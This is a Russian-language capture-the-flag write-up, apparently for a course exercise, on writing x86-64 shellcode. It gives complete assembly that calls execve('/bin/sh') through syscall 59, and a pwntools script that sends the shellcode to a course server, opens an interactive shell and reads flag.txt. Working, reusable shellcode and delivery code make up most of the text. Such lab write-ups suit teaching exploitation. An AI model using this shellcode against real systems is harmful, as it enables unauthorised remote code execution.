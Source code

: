 Забиваем на ридми, он для детей, задача ясна: написать шеллкод. Пошли писать.

Чтобы получить RCE, надо вызвать /bin/sh на удаленном сервере. Делается это с помощью call execve. Зайдем на [сайтик](https://filippo.io/linux-syscall-table/) и посмотрим, под каким номером находится execve. Стыдно не знать, что это номер 59. Дальше нужно разобраться с тем, как вызывать syscall. А он просто делает колл того, что находится в регистре `rax`. Теперь на том же сайтике посмотрим, как правильно вызывать execve. 

![image](/resourses/pwn1.png)

Видим, что в rdi надо положить указатель на строку с именем файла, а в rsi и в rdx можно положить нули, там дурость какая то. 

Погнали писать. Кладем в rax 59: `mov rax, 59`. В rsi и в rdx кладем 0: `mov rsi, 0` `mov rdx, 0`. А вот с указателем на строку немного сложнее. Сделать это можно через стек. Для начала запакуем строку /bin/sh\x00 в число (обратите внимание на 0 байт в конце строки. Он нужен, чтобы указатель на строку понимал, когда строка заканчивается). Ах как хорошо, что это ровно 8 байт и не надо париться. Заходим в питон:

```python
from pwn import *

print(u64(b'/bin/sh\x00'))
```
Получаем число 29400045130965551. Его кладем в какой нибудь левый регистр, например rcx: `mov rcx, 29400045130965551`. Дальше кладем его на стек: `push rcx`. А дальше кладем в регистр rdi, который должен иметь указатель на строку, указатель на стек. Он всегда расположен в регистре rsp: `mov rdi, rsp`. Теперь можно вызывать syscall. Полный код ниже:

```asm
[section .text]

global _start

_start:
	mov rax, 59
	mov rsi, 0
	mov rdx, 0
	mov rcx, 29400045130965551
	push rcx
	mov rdi, rsp
	syscall
```

И надо поменять e.py, я не до конца понял, что там за ересь написана. Содержимое должно быть таким:

```python
#!/usr/bin/env python3

from pwn import *

def main():
    r = remote("is-course.ru", 2400)
    with open('shellcode.bin', "rb") as f:
        data = f.read()
    r.send(data)

    r.interactive()

if __name__ == '__main__':
    main()
```

Компилируем его с помощью скрипта, который нам любезно положили в архив, выполняем e.py и получаем RCE. Пишем `ls`, видим, что там есть flag.txt. Пишем `cat flag.txt` и получаем флаг.


